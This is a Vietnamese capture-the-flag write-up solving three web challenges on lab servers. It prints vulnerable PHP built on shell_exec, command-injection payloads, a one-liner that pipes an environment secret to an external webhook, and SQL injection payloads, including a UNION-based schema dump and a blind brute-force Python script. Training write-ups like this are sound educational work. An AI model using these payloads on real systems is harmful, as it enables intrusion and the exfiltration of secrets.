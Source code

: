 # midterm-test-W1-writeup

## [Web] HEAD1

### Challenge
> [http://45.122.249.68:20018/](http://45.122.249.68:20018/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/8f80fff2c153912fc5322388b2b69332/head1.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNn0.ZLyUUw.qKuUDVqRmiQZwgtJUrvXOP3X2ZQ)

### Solution
```php
<?php

if (strpos($_SERVER['REQUEST_URI'], '_')) {
    die("no no no");
}

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_POST['input_data']);
    echo $output;
}

show_source(__FILE__);
```
- Ở bài này source code khá đơn giản đầu tiên là mình phải bypass được ký tự `_` trong `input_data`, thì ở đây đơn giản ta chỉ cần **URL encode** ký tự `_` sẽ bypass được điều kiện đầu tiên.
- Sang với điều kiện thứ 2, trong đầu mình đặt ra 1 câu hỏi là làm sao có thể truyền cùng lúc data cho `$_GET` và `$_POST`, giải pháp là ta sẽ sử dụng lệnh `curl` với option `-d` hoặc có thể gửi trực tiếp request thông qua `BurpSuite`

![](2023-07-23-10-06-39.png)
- Câu lệnh hoàn chỉnh như sau: `curl -d input_data=%3Bls%20%2F http://45.122.249.68:20018/\?input%5fdata\=`
- Request sẽ được gửi dưới dạng như sau
```http
POST /?input%5fdata= HTTP/1.1
Host: 45.122.249.68:20018
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 22
Content-Type: application/x-www-form-urlencoded

input_data=%3Bls%20%2F
```
- Kết quả nhận được là
![](2023-07-23-10-14-34.png)

```
Flag: W1{ez_head1_huh}
```

## [Web] HEAD2

### Challenge
> [http://45.122.249.68:20019/](http://45.122.249.68:20019/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/a6750a769d391094b4fa05b349cea45e/head2.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwNH0.ZLyglw.YagF13lszTqadAdn95aq2a9FKK8)

### Solution
```php
<?php

if (isset($_GET['input_data'])) {
    $output = shell_exec("curl --head " . $_GET['input_data']);
    // echo $output;
}

show_source(__FILE__);
```
- Ở bài này thì ta truyền vào được `OS Command` nhưng câu hỏi đặt ra là *Làm sao để đọc được kết quả ra đây?*
- Thì ở đây đầu tiên ta kiểm tra thấy sever không chặn kết nối ra ngoài, vậy nên giải pháp ở đây sẽ là đọc file và gửi nó ra ngoài Internet và bắt lại là xong.
- Payload: `; echo $FLAG | curl https://webhook.site/bb145fec-1626-4da3-b695-7cc86b11e295 --data-binary @-;`

```
Flag: W1{webhook_not_so_bad_huh?}
```

## [Web] DEJAVU

### Challenge
> Bài này quen quen 🐳 <br/>
> [http://45.122.249.68:20017/](http://45.122.249.68:20017/)<br/>
> [Attachment](https://cnsc.uit.edu.vn/ctf/files/e68f2b74721ee7ce9863f1b983508161/dejavu.zip?token=eyJ1c2VyX2lkIjo2MTUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjEwM30.ZLykUA.6cORsdHqk08qta_RVa7jUtuBp2s)

### Solution
- Bài này khá tương tự với 1 bài đã giải trong traning, cơ bản **flag** gồm 3 phần nằm hết ở database.
![](2023-07-23-10-56-15.png)
- Sơ qua về trang web thì ở trang `index.php` sẽ cung cấp cho ta 1 form login và qua file `login.php` khi ta đăng nhập thành công sever sẽ redirect qua `/news.php`. Ở dòng 13 ta có thể thực hiện SQL Injection để bypass qua phần login.
![](2023-07-23-10-58-50.png)
- Có 1 chú ý là ở file `news.php`, sever sẽ kiểm tra xem `$_SESSION['username']` của chúng ta có phải là `admin` hay không nên payload để SQLi phần login sẽ như sau:
    - `username`: `admin`
    - `password`: `' UNION SELECT username,password FROM users WHERE username='admin`
- Ở `/news.php` có 1 đoạn code khá *nhạy cảm* giúp chúng ta có thể truyền vào biến `$_GET['name']` qua đó có thể đọc nội dung từ database.
![](2023-07-23-11-04-09.png)
- Payload cho **Part 1**: `' UNION SELECT flag, flag FROM secret -- `
![](2023-07-23-11-07-36.png)
- Ở **Part 2** thì flag nằm trong 1 bảng ta chưa biết tên nên ta có thể sử dụng payload `' UNION SELECT table_name, column_name FROM INFORMATION_SCHEMA.COLUMNS -- ` để in ra thông tin bao gồm tên các bảng và cột.
![](2023-07-23-11-09-50.png)
- Payload cho **Part 2**: `' UNION SELECT flag_5959595959408498_5959595959408498, flag_5959595959408498_5959595959408498 FROM secret_8489498498112318_8489498498112318 -- `
![](2023-07-23-11-10-34.png)
- Ở **Part 3** thì flag là mật khẩu của tài khoản `admin`, ở đây có 2 cách để khai thác đều là `bruteforce`.
    - **Cách 1**: Xoá cookie đang có để reset `$_SESSION` rồi bruteforce password từ trang `login.php`. Script bruteforce như sau:
```py
import requests
import string

# charset = string.ascii_letters + string.digits + string.punctuation
charset = [chr(i) for i in range(1100,2000)]

url = "http://45.122.249.68:20017/login.php"
flag = "_part"
pos = 6

while True:
    for char in charset:
        data = {
            "username": f"admin' AND SUBSTRING((SELECT password FROM users WHERE username = 'admin'), {pos}, 1) = '{char}' --  ",
            "password": "abc"
        }
        r = requests.post(url, data=data)
        print("Đang test ký tự:", char, end='\r')
        if r.url == "http://45.122.249.68:20017/news.php":
            pos += 1
            flag += char
            print()
            print("Part 3:", flag)
            break
    else:
        continue

```
